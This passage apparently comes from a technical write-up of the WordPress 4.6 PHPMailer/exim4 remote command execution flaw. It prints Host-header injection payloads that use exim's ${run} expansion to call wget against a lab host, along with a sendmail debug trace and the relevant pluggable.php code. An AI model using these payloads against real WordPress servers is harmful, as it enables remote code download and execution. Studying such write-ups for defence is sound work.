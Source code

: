 Payload:
dd(tmp1 -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}} tmp2)

![](/images/wordpress46request.png)

Bad request is being obtained. Apache Server will not let us to put that HOSTNAME Header with '/' symbols. Fortunately, again, LegalHackers have resolved this problem by studying the env. variables from exim4 (more information in suggested posts). Once again we perform the Request with the valid payload:

```bash
Payload:
ddd.com(tmp1 -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}192.168.122.154${substr{0}{1}{$spool_directory}}test}} tmp2)

Commandebugger:
Received: /usr/sbin/sendmail
Received: -t
Received: -i
Received: -fwordpress@ddd.com(tmp1
Received: -be
Received: ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}192.168.122.154${substr{0}{1}{$spool_directory}}test}}
Received: tmp2)
Received:
```

It is important to point that modern versions of Apache Server will not let to put in HOSTNAME even spaces...so the Payload will not work in modern versions of it.

Now last question is: Why this doesn't work in previous versions of Wordpress? Why only 4.6?

wordpress4.5/wp-includes/pluggable.php:
```php
	if ( !isset( $from_email ) ) {
		// Get the site domain and get rid of www.
		$sitename = strtolower( $_SERVER['SERVER_NAME'] );
		if ( substr( $sitename, 0, 4 ) == 'www.' ) {
			$sitename = substr( $sitename, 4 );
		}

		$from_email = 'wordpress@' . $sitename;
	}

	$phpmailer->From = apply_filters( 'wp_mail_from', $from_email );

```
